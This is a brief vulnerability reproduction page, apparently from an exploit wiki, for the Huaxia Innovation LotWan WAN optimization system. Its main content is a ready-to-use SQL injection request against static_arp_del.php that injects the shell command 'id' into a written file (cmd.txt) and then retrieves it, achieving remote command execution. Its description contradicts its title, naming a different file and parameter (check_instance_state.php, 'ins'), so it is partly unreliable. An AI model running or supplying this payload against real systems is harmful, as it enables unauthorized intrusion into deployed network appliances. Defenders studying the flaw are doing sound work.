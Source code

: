 



# Huaxia Innovation LotWan WAN Optimization System Static_arp_del.php SQL Injection Vulnerability

## Vulnerability Description

Huaxia Innovation LotWan WAN optimization system check_instance_state.php file parameters ins have command splicing, resulting in remote command execution vulnerabilities

## Vulnerability Impact

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">Huaxia Innovation LotWan WAN Optimization System</span>

## Network surveying and mapping



## Vulnerability reappears

Login page

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1635942598942-6671fa50-5052-43f6-ab40-bf2c8403bdf8.png)

The file with vulnerability is static_arp_del.php, written to the file through union injection

```php
/acc/bindipmac/static_arp_del.php?x=1&arpName=1' and 0 union select 1,'||id>cmd.txt||',3,4,5,6,7,8--
```

Visit `/acc/bindipmac/cmd.txt again`

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1635944083151-f56d838d-54e4-4d28-a6ac-6e079e936cf3.png)
